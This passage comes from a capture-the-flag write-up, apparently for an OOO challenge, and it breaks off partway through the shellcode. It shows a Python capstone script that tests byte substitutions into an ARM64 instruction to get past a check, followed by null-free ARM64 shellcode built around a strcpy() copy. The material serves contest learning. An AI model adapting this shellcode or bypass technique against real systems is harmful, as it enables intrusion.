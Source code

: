 ```python
#!/usr/bin/env python3
from capstone import *

flag = b"OOO{if you cant read this youre not part of the forbes 30 under 30}"
#flag = b"\x00"
# b.ls
#inst = bytes.fromhex("49000054")
# cmp
inst = bytes.fromhex("1F00016B")
md = Cs(CS_ARCH_ARM64, CS_MODE_ARM)
for c in flag:
    for pos in range(len(inst)):
        lh = inst[:pos]
        rh = inst[pos+1:]
        new_inst = lh + bytes([c]) + rh
        print(new_inst)
        assert len(new_inst) == 4

        print(f"char {chr(c)} at pos {pos}")
        for i in md.disasm(new_inst, 0x1000):
            print("0x%x:\t%s\t%s" %(i.address, i.mnemonic, i.op_str))
```

We tried changing both the `cmp` and `b.ls` instruction. It ended up being
easier than we though, since the first instruction that showed up when we ran
our script with the `cmp` instruction was the following: `subs w15, w2, w1`.
We assumed that this would either set up the flags so that the branch would
work, or that we could control `w2` and `w1` to make it trigger. In the end we
didn't have to do any modifications, just change this one byte of the `cmp`
instruction with the first byte of the flag ("O") and the check passed every
time.

This is the shellcode that we ended up using (which had to be null-free because
the userspace exploit uses `strcpy()` to copy our shellcode).

```asm
.section .text
.global _start

_start:
	// open
	mov x0, 0x394
	mov x1, xzr
	mov x8, 0x184
	sub x8, x8, 0x180
	svc  0x1337

	// read
	mov x0, xzr
	mov x1, 0xFFFF
	mov x8, 0x1b0
	sub x8, x8, 0x180
	lsl x1, x1, x8
	// now add 0x80000
	mov x8, 0x190
	sub x8, x8, 0x180
	mov x20, 0x188
	sub x20, x20, 0x180
	lsl x20, x20, x8
	mov x21, x1
	orr x21, x21, x20
	mov x20, 0x2A54
	add x21, x21, x20
	mov x1, x21
```